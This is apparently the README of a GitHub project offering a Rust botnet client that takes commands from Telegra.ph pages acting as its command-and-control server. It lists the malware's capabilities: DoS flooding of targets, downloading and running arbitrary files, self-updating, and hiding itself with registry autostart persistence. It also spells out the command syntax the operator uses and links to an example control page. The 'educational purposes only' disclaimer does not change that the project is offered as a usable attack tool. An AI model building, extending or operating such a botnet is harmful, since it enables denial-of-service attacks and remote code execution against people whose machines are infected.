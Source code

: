 # Rust Botnet
An example botnet client which uses [Telegra.ph](https://telegra.ph) as a C&C server.

## Features
* DoS attack feature.
* Loader & Executer of any files.
* Update feature.
* Program adds itself to autoload register and moves to hidden folder in C:/ drive root.
* Botnet deletion by command.

Notice, that this is not production ready version. 
There are many bugs which are waiting for a fix.

## Example & List of commands
Example of a C&C server is located [here](https://telegra.ph/Cls93sog103ekfSfKTEsto294kfaozwkd394-rktkcsd-krfasseegpe11-03-20).
Botnet uses the next syntax - `command{split}value` or `command{split}value{sep}value's_value`
### Available commands
* `download_exec{split}LINK_TO_FILE` - download and run a file which is located at `LINK_TO_FILE`.
* `ddos{split}TARGET{sep}TIME` - ddos a `TARGET` for `TIME` seconds.
* `upgrade{split}LINK_TO_FILE{sep}VERSION` - download and install an update which is located at `LINK_TO_FILE`. Update will be installed only if botnet's file version is lower than `VERSION`.
* `stop{split}` - you should use that command to stop the previous command execution.
* `delete_botnet{split}` - delete the botnet and it's registry notes from the client's PC.
* `exit{split}` - close botnet's executable file.

## Disclaimer
This program must be used for educational purposes only!
Only **you** are responsible for anything **you** do with it!

## Licence
This project is licensed under the MIT License - see the [LICENSE.md](https://github.com/Ookldev/rust_botnet/blob/master/LICENSE) file for details.
